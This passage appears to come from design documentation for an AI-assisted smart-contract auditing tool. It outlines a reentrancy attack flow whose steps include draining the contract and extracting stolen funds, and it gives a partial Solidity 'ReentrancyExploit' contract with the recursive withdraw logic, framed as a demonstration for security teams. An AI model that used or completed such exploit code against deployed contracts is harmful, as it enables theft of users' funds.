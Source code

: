 ```
           │   2. Call attack() with 1 ETH
           │   3. Recursive reentrancy (5 iterations)
           │   4. Drain contract balance
           │   5. Extract stolen funds
           │
           └─► Expected Results
               ├─► Initial: 1 ETH
               ├─► Extracted: 6 ETH (600% profit)
               ├─► Success rate: 98%
               └─► Execution time: <30 seconds
```

**Generated Code Structure:**
```solidity
contract ReentrancyExploit {
    IVulnerableBank public target;
    uint256 public attackAmount = 1 ether;
    uint256 public attackCount;

    function attack() external payable { ... }

    receive() external payable {
        // Recursive reentrancy logic
        if (attackCount < 5 && address(target).balance >= attackAmount) {
            attackCount++;
            target.withdraw(attackAmount);  // Reentrant call
        }
    }

    function collectLoot() external { ... }
}
```

**Impact:**
- Moves findings from "theoretical" to "practically exploitable"
- Demonstrates concrete attack vector
- Provides educational value for security teams

---

### 3. Phase 3.5: LLM Intelligent Prioritization 🎯

**Location:** demo/hacker_demo.py:1175-1268 (94 lines) - **NEW PHASE**
**Purpose:** Multi-factor risk ranking and ROI analysis
**Execution Time:** +15 seconds

**Architecture:**

```
All Tool Findings (Slither, Mythril, Aderyn)
         │
         ▼
┌──────────────────────────────────────────┐
│  LLM Multi-Factor Prioritization Engine  │
│  Factors: CVSS + Exploit + Impact + ...  │
└──────────┬───────────────────────────────┘
           │
           ├─► CVSS Base Score Calculation
           │   └─► 9.8 (Critical)
           │
           ├─► Exploitability Assessment
           │   ├─► Public exploits: Yes (2016-2023)
           │   ├─► Complexity: Low
           │   └─► Automation: MEV bots ready
           │
           ├─► Business Impact Analysis
```